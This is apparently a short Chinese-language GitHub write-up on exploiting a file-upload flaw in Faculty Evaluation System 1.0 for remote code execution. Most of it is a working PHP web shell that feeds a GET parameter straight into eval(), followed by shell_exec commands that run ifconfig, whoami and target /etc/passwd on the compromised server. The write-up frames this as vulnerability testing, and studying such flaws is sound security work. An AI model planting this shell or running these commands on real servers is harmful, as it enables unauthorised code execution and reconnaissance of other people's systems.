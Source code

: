
Faculty Evaluation System 1.0 是一個很好的漏洞測試平台(雖然不太應該這樣玩它)，但因為他在這版本有相關漏洞可以測試，就拿來當範例~~

首先可以創建一個很簡易的php去觸發
以下 php 程式將採用 GET 參數代碼並通過 eval() 函數運行它，而不進行任何輸入清理：

**$_GET[" "]被傳遞給eval()函數，這意味著該字符串將被解釋為有效的PHP code並執行。它允許攻擊者執行任意的PHP code**

```php
<?php $code = $_GET['code'];
eval($code); ?>
```
當你看到這頁面就知道程式運行成功，看起來可以做其他測試
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/7dbac24e-7e55-4050-8014-0b1ab115f15c)
+ echo shell_exec('/sbin/ifconfig eth0');
+ echo shell_exec('whoami');
+ echo shell_exec('/etc/passwd');
